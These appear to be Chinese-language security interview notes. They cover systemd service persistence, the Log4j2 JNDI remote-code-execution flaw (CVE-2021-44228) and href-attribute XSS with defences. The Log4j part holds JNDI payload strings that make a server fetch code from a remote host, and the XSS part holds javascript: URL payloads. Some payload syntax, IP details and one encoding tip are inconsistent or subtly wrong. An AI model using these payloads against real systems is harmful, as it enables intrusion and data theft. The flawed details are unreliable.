	Type=forking：以 fork 方式从父进程创建子进程，创建后父进程会立即退出
	Type=oneshot：一次性进程，Systemd 会等当前服务退出，再继续往下执行
	Type=dbus：当前服务通过D-Bus启动
	Type=notify：当前服务启动完毕，会通知Systemd，再继续往下执行
	Type=idle：若有其他任务执行完毕，当前服务才会运行
ExecStart：启动当前服务的命令
ExecStartPre：启动当前服务之前执行的命令
ExecStartPost：启动当前服务之后执行的命令
ExecReload：重启当前服务时执行的命令
ExecStop：停止当前服务时执行的命令
ExecStopPost：停止当其服务之后执行的命令
RestartSec：自动重启当前服务间隔的秒数
Restart：定义何种情况 Systemd 会自动重启当前服务，可能的值包括always（总是重启）、on-success、on-failure、on-abnormal、on-abort、on-watchdog
TimeoutSec：定义 Systemd 停止当前服务之前等待的秒数
Environment：指定环境变量
```

##### 流程

1. **创建恶意脚本**

与上述相同，首先创建一个恶意脚本。

```bash
echo "#!/bin/bash" > /usr/local/bin/malicious_script.sh
echo "echo 'Malicious code executed'" >> /usr/local/bin/malicious_script.sh
chmod +x /usr/local/bin/malicious_script.sh
```

2. **创建 `systemd` 服务单元文件**

在 `/etc/systemd/system/` 目录下创建一个服务单元文件，例如 `/etc/systemd/system/malicious.service`。

```bash
sudo nano /etc/systemd/system/malicious.service
```

文件内容如下：

```
[Unit]
Description=Example malicious service
After=network.target

[Service]
ExecStart=/usr/local/bin/malicious_script.sh
Restart=always

[Install]
WantedBy=multi-user.target
```

3. **设置服务**

使用 `systemctl` 命令启用并启动服务：

```bash
sudo systemctl enable malicious.service
sudo systemctl start malicious.service
```


## 讲一个你觉得不错的漏洞

### log4j2漏洞cve-2021-44228

使用版本：2.0 <= Apache log4j2 <= 2.14.1

 Apache Log4j2是一个基于Java的日志记录工具，当前被广泛应用于业务系统开发，开发者可以利用该工具将程序的输入输出信息进行日志记录


#### 漏洞原理

 Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Lookup模块出现问题所导致的，该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。

 log4j是一款通用日志记录工具，开发人员可以使用log4j对当前程序状态进行记录。log4j的功能非常强大，开发人员除了直接记录文本外，还可以使用简单表达式记录动态内容，例如：

```
logger.info("system propety: ${sys:user.dir}");
```

`${}`进行包裹，上述示例中，`sys:user.dir`表示使用sys解析器，查找user.dir的内容，即在系统环境变量中查找user.dir，以替换`${sys:user.dir}`进行打印。

 log4j中除了sys解析器外，还有很多其他类型的解析器。其中，jndi解析器就是本次漏洞的源头。

jndi 解析器将通过 jdk 获取 jndi 对象，并使用这个 jndi 对象替换原有文本进行打印。 我们将 jndi 对象理解成为一个从程序外部获取的 Java 程序对象就可以了。jdk中提供了多种不同 jndi 对象的获取方式，获取方式可以称为schema，所以正常的包含jndi的日志记录方式如下：

```
logger.info("system propety: ${jndi:schema://url}");
```

上述schema和url需替换成真实的内容方可生效。

 其中，schema 是查找jndi对象的方式，jdk中支持 `corbname, dns, iiop, iiopname, ldap, ldaps, rmi`几种schema。

 url是几种不同的schema下jndi的路径。不同的schema，url路径的配置方法不同。常用的schame是ldap，其url写法比较简单：`jndi:ldap://xxx.dnslog.cn`

 jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。

 因此，如果攻击者能够控制日志打印的内容，就可以使目标服务器从攻击者指定的任意url地址下载代码字节流，攻击者在字节流中附带的代码就会在目标服务器上执行。


 **LDAP（轻型目录访问协议）**：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问 控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈 树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。

 **RMI（远程方法调用）**：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。


##### 攻击者如何控制服务器上记录的日志内容呢？

 大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上`${jndi:ldap://xxx.dnslog.cn}`就可以使web服务从`xxx.dnslog.cn`下载字节流了。


#### 触发过程

##### RMI



 log4j2 远程代码执行漏洞大致过程（此处使用RMI，LDAP同理）： 假设有一个Java程序，将用户名信息到了日志中，如下

1. 攻击者发送一个HTTP请求，其用户名为`${jndi://rmi服务器地址/Exploit}`

2. 被攻击服务器发现要输出的信息中有`${}`，则其中的内容要单独处理，进一步解析是JNDI扩展内容且使用的是RMI，而后根据RMI服务器地址去请求Exploit。

3. RMI服务器返回Reference对象（用于告诉请求端所请求对象所在的类），而该Reference指定了远端 文件下载服务器上含有恶意代码的class文件。
4.  被攻击服务器通过Reference对象去请求文件下载服务器上的class文件。

5. 被攻击服务器下载恶意class文件并执行其中的恶意代码


##### LDAP

 当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中

1. 假如日志中含有该语句`${jndi:ldap:192.168.96.1:1099/exp}`
2. 被攻击服务器发现要输出的信息中有`${}`，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：`ldap:192.168.96.1:1099/exp`
3. 解析到ldap，就会去`192.168.61.129:1099`的ldap服务找名为exp的资源，如果找不到就会去http服务中找在http中找到exp之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现exp是一个.class文件，就会去执行里面的代码，从而实现注入攻击者就可以通过shell实现任意的命令执行，造成严重危害


[一文读懂面试官都在问的Log4J2漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/364311.html)


## 输出到href属性的XSS如何防御

跨站脚本攻击（Cross-Site Scripting, XSS）是一种注入攻击，其中**攻击者向可信网站注入恶意脚本，当用户访问这些网站时，恶意脚本会在用户的浏览器中执行**。XSS 攻击的目标通常是**窃取用户数据（如 Cookie、会话令牌等）**、**伪造用户操作**或**传播恶意代码**。


### XSS 类型

XSS 攻击主要分为以下几种类型：

1. **反射型 XSS（Reflected XSS）**：

   - 恶意脚本通过 URL 参数或其他即时请求被注入，服务器将其反射回用户的浏览器，并在浏览器中执行。

   - 攻击者构造恶意 URL，诱使用户点击。

   - 示例：

     ```http
     http://example.com/search?q=<script>alert('XSS')</script>
     ```

2. **存储型 XSS（Stored XSS）**：

   - 恶意脚本被永久存储在服务器上（如数据库、日志、评论等），并在其他用户访问相关内容时被执行。

   - 示例： 攻击者在评论区提交恶意代码：

     ```javascript
     <script>alert('XSS')</script>
     ```

3. **DOM 型 XSS（DOM-based XSS）**：

   - 恶意脚本通过修改页面的 DOM 结构直接在客户端执行，不经过服务器。

   - 通常发生在客户端 JavaScript 处理用户输入时。

   - 示例：

     ```javascript
     var userInput = location.hash.substring(1);
     document.getElementById('output').innerHTML = userInput;
     ```

#### 存储型 XSS的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

#### 反射型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。

由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

#### DOM 型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

> DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。


输出到 `href` 属性的 XSS 攻击是一种特定的反射型 XSS 攻击，其中恶意输入被注入到 HTML 元素的 `href` 属性中。攻击者利用这个漏洞，诱使用户点击恶意链接，从而在用户的浏览器中执行恶意代码。

### 攻击示例

假设我们有一个网页，它从 URL 参数中读取用户输入，并将其插入到一个链接的 `href` 属性中：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vulnerable Page</title>
</head>
<body>
    <h1>Click the link below:</h1>
    <a id="myLink" href="#">Click me</a>

    <script>
        var params = new URLSearchParams(window.location.search);
        var userInput = params.get('url');
        var link = document.getElementById('myLink');
        link.setAttribute('href', userInput);
    </script>
</body>
</html>
```

在这个示例中，页面从 URL 参数 `url` 中读取用户输入，并将其设置为链接的 `href` 属性。如果攻击者构造一个恶意 URL 并诱使用户点击，那么用户的浏览器将会执行攻击者指定的恶意代码。

### 恶意 URL 示例

攻击者可以构造如下恶意 URL：

```http
http://vulnerable-website.com/?url=javascript:alert('XSS')
```

当用户访问这个 URL 时，页面会将 `href` 属性设置为 `javascript:alert('XSS')`，点击链接时会执行 `alert('XSS')`，这就是一个简单的 XSS 攻击。

### 防御措施

防御这种类型的 XSS 攻击，需要对用户输入进行严格的验证和输出编码，特别是在将用户输入插入到 HTML 属性时。

#### 1. 输入验证

首先，应该对所有用户输入进行验证，确保其符合预期格式。

```javascript
function sanitizeInput(input) {
    // 仅允许字母、数字、以及部分特殊字符
    return input.replace(/[^a-zA-Z0-9-_\.\/:]/g, '');
}
```

#### 2. 输出编码

对用户输入进行 URL 编码，确保插入到 `href` 属性时是安全的。

```javascript
var safeUrl = encodeURIComponent(userInput);
link.setAttribute('href', safeUrl);
```

#### 3. 使用安全的 API

尽量使用安全的 API 来处理用户输入，而不是直接拼接字符串。

```javascript
var link = document.getElementById('myLink');
link.href = safeUrl; // 使用安全的 URL 赋值方法
```

#### 4. 限制协议

验证并限制允许的 URL 协议，只允许 `http`, `https`, `ftp` 等安全协议，避免使用 `javascript:` 协议。

```javascript
var allowedProtocols = ['http:', 'https:', 'ftp:'];
var url = new URL(userInput, window.location.origin); // 解析 URL

if (allowedProtocols.includes(url.protocol)) {
    link.setAttribute('href', url.href);
} else {
    console.error('Invalid URL protocol');
}
```

#### 5. Content Security Policy (CSP)

使用 Content Security Policy (CSP) 限制哪些脚本和资源可以被加载和执行，减少 XSS 攻击的风险。

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';

内容安全策略(CSP)，是一种安全策略，其原理是当浏览器请求某一个网站时，告诉该浏览器申明文件可以执行，什么不可以执行。

CSP是专门解决XSS攻击而生的神器CSP的引入会使得我们的引入扩展程序更加安全，并且可以由开发者指定可以加载扩展程序的类型，避免恶意的脚本在浏览器中执行，造成信息泄露问题。

CSP是防XSS的利器，可以把其理解为白名单，开发者通过设置CSP的内容，来规定浏览器可以加载的资源，CSP 大大增强了网页的安全性。攻击者即使发现了漏洞，也没法注入脚本，除非还控制了一台列入了白名单的可信主机。
```

### 综合示例

综合以上防御措施，修改后的安全代码如下：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Secure Page</title>
</head>
<body>
    <h1>Click the link below:</h1>
    <a id="myLink" href="#">Click me</a>

    <script>
        function sanitizeInput(input) {
            return input.replace(/[^a-zA-Z0-9-_\.\/:]/g, '');
        }

        var params = new URLSearchParams(window.location.search);
        var userInput = params.get('url');
        var link = document.getElementById('myLink');

        if (userInput) {
            var safeInput = sanitizeInput(userInput);
            try {
                var url = new URL(safeInput, window.location.origin);
                var allowedProtocols = ['http:', 'https:', 'ftp:'];

                if (allowedProtocols.includes(url.protocol)) {
                    link.setAttribute('href', url.href);
                } else {
                    console.error('Invalid URL protocol');
                }
            } catch (e) {
                console.error('Invalid URL');
            }
        }
    </script>
</body>
</html>
```

[讲解xss漏洞的详细文章](https://tech.meituan.com/2018/09/27/fe-security.html)


